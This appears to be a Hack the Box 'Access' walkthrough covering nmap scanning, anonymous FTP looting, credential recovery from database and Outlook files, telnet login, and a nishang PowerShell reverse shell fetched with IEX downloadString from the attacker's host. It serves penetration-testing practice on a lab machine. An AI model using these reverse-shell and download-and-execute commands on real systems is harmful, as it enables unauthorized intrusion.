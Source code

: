 # Hack the Box - Access

```CSS
Machine IP: 10.10.10.98
```

- [NMAP: All TCP ports](#nmap-open-ports)
- [NMAP: Open ports Service Version](#nmap-service-version)
- [FTP Anonymous Login](#ftp-login)
  - [Download Files](#ftp-downloads)
- [Telnet Anonymous Login](#telnet-anonymous-login)
- [Website](#webserver)

## NMAP Open Ports
```CSS
▶ nmap -Pn -sS -p- 10.10.10.98 -T4 --min-rate 5000 -oN nmap.surface

Nmap scan report for 10.10.10.98
Host is up (0.19s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.68 seconds
```

## NMAP Service Version
```CSS
▶ nmap -sC -sV -p 21,23,80 10.10.10.98 -T4 --min-rate 5000 -oN nmap.deep

Nmap scan report for 10.10.10.98
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.59 seconds
```

---

## Telnet Anonymous Login
  - Telent log in failed.
```CSS
▶ telnet 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231275176-f81e52d6-3975-497a-b375-17f4cc9eb3e2.png)

---

## Website
![image](https://user-images.githubusercontent.com/83878909/231276321-d9810c39-9ac9-4c59-b50d-0f7a296ede38.png)

---

## FTP Login
  - Log in to ftp, anonymous login allowed. 
```CSS
▶ ftp 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231272883-d87603cc-e9b5-461c-a670-5c36226f6a57.png)

### FTP Downloads
  - Download all directories and files found in FTP.
```CSS
▶ wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/231274006-305f40e6-8efc-4af0-8f4c-6e85319bab51.png)

### ZIP File
  - Access File
```CSS
▶ 7z x Access\ Control.zip
```
![image](https://user-images.githubusercontent.com/83878909/233909981-8b6ad107-b1cf-4ad8-87f8-fc00f663bc5b.png)

  - Technical Information
```CSS
▶ 7z l -slt Access\ Control.zip
```
![image](https://user-images.githubusercontent.com/83878909/233909126-48769505-adde-4982-beaf-2fe1635970f4.png)


### MBD File
  - Look into the file
```CSS
▶ strings backup.mdb
```
![image](https://user-images.githubusercontent.com/83878909/233927444-536ae3fa-9377-4efd-b6ac-783b4b7df837.png)

  - Extract Information
```CSS
▶ mdb-tables backup.mdb | grep --color=auto user
```
![image](https://user-images.githubusercontent.com/83878909/233927978-8404a46f-e088-4f4c-8d8c-5e6638269cbc.png)
```CSS
▶ mdb-export backup.mdb auth_user
```
![image](https://user-images.githubusercontent.com/83878909/233928307-60dc1282-0923-472e-a148-cdb5bedba4ea.png)

### Extract ZIP File Contents
```CSS
▶ 7z x Access\ Control.zip
```
```CSS
password: access4u@security
```
![image](https://user-images.githubusercontent.com/83878909/233932586-4b1e138c-13d7-4197-81ac-46189c7cd293.png)

---

### PST File
  - Check the file.
```CSS
▶ file Access\ Control.pst
```
File Type: Microsoft Outlook Personal Storage

  - Convert `.pst` file to `.mbox` file.
```CSS
▶ readpst Access\ Control.pst
```
![image](https://user-images.githubusercontent.com/83878909/233936965-6d6ef291-91dd-4cd2-b153-8d1101af60b6.png)

  - Read emails
```CSS
▶ less Access\ Control.mbox
```
![image](https://user-images.githubusercontent.com/83878909/233937943-92fb0eed-9159-4d42-9f28-8807dc589fa5.png)
```CSS
Username: security
Password: 4Cc3ssC0ntr0ller
```

---

## Telnet Login
  - Login using found credentials.
```CSS 
▶ telnet 10.10.10.98
```
![image](https://user-images.githubusercontent.com/83878909/233939322-189c0e45-6083-4a2f-bed0-05bd8100d025.png)

---

## Privilege Escalation
  - Modify and upload `nishang` shell.
  - `/opt/nishang/Shells/Invoke-PowerShellTcp.ps1`.

### Modify
```CSS
▶ Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.21 -Port 4444
```
  - Add the above line to the bottom of the nishang script.

### Upload & Execute
```CSS
▶ python -m http.server
```
```CSS
▶ nc -nlvvp 4444
```
```CSS
C:\Users\security\Desktop>powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21:8000/Invoke-PowerShellTcp.ps1')"
```
![image](https://user-images.githubusercontent.com/83878909/234075465-eab8f656-1ad4-4cab-8efd-bcf1dd179517.png)
